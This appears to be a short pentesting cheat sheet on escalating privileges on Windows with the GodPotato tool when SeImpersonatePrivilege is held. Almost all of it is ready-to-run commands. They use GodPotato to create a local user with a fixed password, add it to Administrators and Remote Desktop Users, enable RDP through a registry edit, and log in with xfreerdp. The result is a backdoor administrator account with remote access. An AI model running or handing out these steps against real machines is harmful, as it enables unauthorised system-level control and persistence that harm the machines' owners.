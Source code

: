 # GodPotato usage:

with SeImpersonatePrivilege we can use God Potato.  
  
https://github.com/BeichenDream/GodPotato/tree/main  
  
Get the latest release here and put it on the target machine (I used NET2.exe):  
https://github.com/BeichenDream/GodPotato/releases  
  
  
Now we can create a new user: 
```
.\GodPotato-NET2.exe -cmd "net user kyser password /add"  
```
  
Put them in the Administrators group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup Administrators kyser /add"  
```
  
Put them in the Remote Desktop users Group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup "Remote Desktop Users" kyser /add"  
```
    
And enable RDP with:  
```
.\GodPotato-NET2.exe -cmd 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'  
```

Now log in with the new user like this:
```
xfreerdp /u:kyser /p:password /v:[TARGET-IP]
```
